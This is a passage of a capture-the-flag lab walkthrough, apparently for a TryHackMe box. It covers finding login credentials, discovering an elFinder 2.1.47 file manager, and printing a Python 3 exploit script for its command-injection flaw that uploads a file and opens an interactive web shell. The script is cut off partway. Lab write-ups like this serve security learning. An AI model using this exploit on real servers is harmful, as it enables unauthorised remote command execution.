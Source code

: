 When we run the script, we get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144135.png)

So, the credentials are: `jose`: `password123`

Let's login and take a look at it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144230.png)
Once we login, we find a `files.lookup.thm` domain we need to add to `/etc/hosts`, once we've added the domain, this appears:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144345.png)

We got access to a file managing system, let's take a further look: 

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144428.png)

After checking the passwords that are in those files, all are useless, so, I decided to check at the info about the webapp, that's were I found that this is running something called `elFinder`, let's search that on searchsploit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144558.png)

This is running `elfinder 2.1.47` so, we got a command injection vulnerability for this specific version, it is a script written in python, let's look at the script:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241202144738.png)

This is a script written in python, let's change it to python3 since it's a bit outdated, the script would be the following:

```python
#!/usr/bin/python3

import requests
import json
import sys


def upload(url, payload):
    files = {'upload[]': (payload, open('image_input.jpg', 'rb'))}
    data = {"reqid": "1693222c439f4", "cmd": "upload", "target": "l1_Lw", "mtime[]": "1497726174"}
    r = requests.post(f"{url}/php/connector.minimal.php", files=files, data=data)
    j = json.loads(r.text)
    return j['added'][0]['hash']

def imgRotate(url, hash):
    r = requests.get(f"{url}/php/connector.minimal.php?target={hash}&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c")
    return r.text

def shell(url):
    r = requests.get(f"{url}/php/image_input.php")
    if r.status_code == 200:
        print("[+] We're in :)")
        print("[+] Spawning a shell")
        while True:
            try:
                input_command = input("$ ")
                r = requests.get(f"{url}/php/image_input.php?c={input_command}")
                print(r.text)
                if input_command.strip() == "exit":
                    print("\nExiting.....")
                    sys.exit(0)
            except KeyboardInterrupt:
```